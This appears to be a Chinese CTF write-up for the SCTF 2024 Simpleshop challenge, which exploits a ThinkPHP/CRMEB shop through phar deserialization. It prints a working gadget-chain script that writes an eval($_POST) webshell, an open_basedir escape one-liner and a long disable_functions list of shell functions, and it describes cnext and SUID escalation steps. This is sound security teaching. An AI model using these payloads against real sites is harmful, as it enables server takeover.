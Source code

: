 

---
 title: 2024 SCTF Simpleshop WP
 date: 2024-10-7 12:00:00 +0800
 categories: [CTF, PHP,Thinkphp]

 tags: [CTF,SCTF,Thinkphp反序列化,代码审计]
 ---

其实这道题主要是想考一下在Thinkphp框架下在反序列化过程中如何实现任意文件写入以及cnext绕过disable_function实现命令执行
下载源码后进行简单的代码审计可以发现这套系统是显式路由模式在router自定义了路由实现,值得注意的是和常规的PATHINFO模式有点不太一样
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410011855023.png)

```
but I have disabled almost all the dangerous functions of php, and does some common php security restrictions
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410011900550.png)

这里letter暗示程序开启了较为严格的disabled_function和open_basedir安全限制,比较接近真实环境的php配置,所以常见的命令执行函数是可能失效的
这里在register.html提供了前台的用户注册接口 随便注册用户
非常明显的是 前台用户可以控制的就是头像上传点 但是做了一些后缀以及内容的安全限制
php版本 <8 而且是国内常用的thinkphp框架 自然会想到打phar反序列化
可以比较明显发现Sink点 在 app/common.php 可以触发反序列化
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410011914504.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410011918536.png)

通过访问/api/image_base64 是会处理到get_image_base64函数当中的实现触发
紧接着是if判断 但是这里明显存在 逻辑上的问题 应该用`||` 连接 可以导致后缀的绕过 只要不为空即可绕过 判断
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020025100.png)
需要注意的是存在 `CacheService::remember` 的缓存机制
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020027257.png)
这意味着我们同一个图片只能够使用一次触发 
在put_image中触发phar反序列化 image_to_base64可以触发任意文件读取/SSRF
这里我们主要关注phar反序列化的实现 跟进put_image中
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020033511.png)
发现对phar做了置空处理 双写/大小写绕过即可
链子部分由于我们禁用了大部分命令执行函数 优先考虑实现任意文件写
仔细观察 可以发现在安装程序时 public一定时可写的
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020037538.png)
那么写文件是可以实现的
这里讲下链子部分 认真学习了各位Web大手子的WP 每位师傅的思路都很清晰
出题时没有考虑到程序用到不是原生的thinkphp框架 导致可以实现guzzle任意文件写文件 简化了写文件的过程
https://github.com/ambionics/phpggc/blob/master/gadgetchains/Guzzle/FW/1/gadgets.php 确实是我的疏忽
其他大多数Web大哥的思路 都是通过反序列化链最终实现任意代码执行(Thinkphp模板渲染处)触发到`eval` 实现 思路非常优秀 可以参考一下他们的解法
这里提供一种当时想出来比较取巧的一种思路
一般来说 thinkphp框架最后sink点大致可以分为两类 
一种是通过 __call方法实现跳板到call_user_func_array 实现rce或者接着当跳板实现其他目的
另外一种就是利用匿名类closure实现动态控制函数实现
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020106321.png)
我们可以通过控制 $closure($value, $this->data);实现我们的目的
网上的大师傅们一般都是在这个地方实现rce 比如system
但是实际上 $value`=`this->data 我们在获取value时走到第一个判断就返回$this->data的值了
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020121605.png)
相当于向system传入两个一摸一样的参数
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020111577.png)
意外的可以执行 原因在于 `system`接受一个可选参数作为返回值存储 比较巧合
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020112667.png)
这里明显可以控制两个参数 可以尝试用 file_put_contents('/var/www/public/myshell','<?php eval($_POST[1]);?>')
写入实现任意文件写 问题是我们分别如何控制每个参数的值了?
最后发现`$value`的值可以由`getData`获取
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020117870.png)
接着跟进`getRealFieldName`后 发现可以 存在`strict`属性
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020118272.png)
在三元表达式中可以令 strict=false 令严格模式为假
触发 Snake 驼峰命名转化机制 让key值实现不同
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020120713.png)
实现 进入判断2 返回relation中的值
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020122886.png)
从而实现单独控制每个参数的作用

```php
<?php  
  
  namespace think\model\concern;  
    
  trait Attribute  
  {     
      protected $strict = false;
      private $data = ["J1rry" => "<?php eval(\$_POST[1]);?>"];  
      private $withAttr = ["_j1rry" =>"file_put_contents"];  
      private $relation = ["_j1rry" => "/var/www/public/myshell.php"];  
  }  
    
  namespace think;  
    
  abstract class Model  
  {  
      use model\concern\Attribute;  
      private $lazySave;  
      protected $withEvent;  
      private $exists;  
      private $force;  
      protected $table;  
      function __construct($obj = '')  
      {  
          $this->lazySave = true;  
          $this->withEvent = false;  
          $this->exists = true;  
          $this->force = true;  
          $this->table = $obj;  
      }  
  }  
  namespace app\model\product\product;  
    
  use crmeb\traits\ModelTrait;  
  use think\Model;  
    
    
  class StoreProductCate extends Model  
  {  
  }  
    
  $a = new StoreProductCate();  
  $b = new StoreProductCate($a);  
  echo urlencode(serialize($b));  
  $phar = new \Phar('x.phar');  
  $phar->stopBuffering(); 
  $phar->setStub( 'GIF89a'.'<?php __HALT_COMPILER();?>');  
  $phar->addFromString('test.txt', 'J1rrY');  
  $phar->setMetadata($b);  
  $phar->stopBuffering();
```
最终实现了 file_put_contents的效果
gzip一下绕过明文检测
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020136351.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020127049.png)
上传恶意phar文件的后
触发 phar反序列化
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020136438.png)
可以实现webshell文件的写入
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020137118.png)
这里disabled_function比较丧心病狂
```
system,exec, pcntl_exec, shell_exec, passthru, proc_get_status, checkdnsrr, getmxrr, getservbyname, getservbyport, syslog, popen, show_source, highlight_file, dl, socket_listen, socket_create, socket_bind, socket_accept, socket_connect, stream_socket_server, stream_socket_accept, stream_socket_client, ftp_connect, ftp_login, ftp_pasv, ftp_get, sys_getloadavg, disk_total_space, disk_free_space, posix_ctermid, posix_get_last_error, posix_getcwd, posix_getegid, posix_geteuid, posix_getgid, posix_getgrgid, posix_getgrnam, posix_getgroups, posix_getlogin, posix_getpgid, posix_getpgrp, posix_getpid, posix_getppid, posix_getpwnam, posix_getpwuid, posix_getrlimit, posix_getsid, posix_getuid, posix_isatty, posix_kill, posix_mkfifo, posix_setegid, posix_seteuid, posix_setgid, posix_setpgid, posix_setsid, posix_setuid, posix_strerror, posix_times, posix_ttyname, posix_uname, assert, assert_options, proc_open, proc_close, proc_nice, proc_terminate, pcntl_fork, pcntl_signal, pcntl_waitpid, pcntl_wexitstatus, pcntl_wifexited, pcntl_wifsignaled, pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig, pcntl_signal_dispatch, pcntl_alarm, pcntl_get_last_error, pcntl_errno, pcntl_strerror, pcntl_sigprocmask, pcntl_sigwaitinfo, pcntl_sigtimedwait, pcntl_wait, pcntl_getpriority, pcntl_setpriority, pcntl_async_signals, mb_send_mail, putenv, error_log,str_shuffle
```
我花了很长时间专门找了一个内核版本,glibc版本可以打通iconv的docker镜像
正常官方镜像是打不通的(hub太安全了不是)
直接打cnext就可以了
先读 `/proc/self/maps`找函数地址
```
mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));readfile('php://filter/convert.base64-encode/resource=/proc/self/maps');
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020146790.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020143816.png)
看到很多师傅都用 kezibei 师傅的本地化项目 可以推荐一下 
https://github.com/kezibei/php-filter-iconv/tree/main
后面就是简单的suid提权
`grep '' /flag`即可
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202410020152924.png)

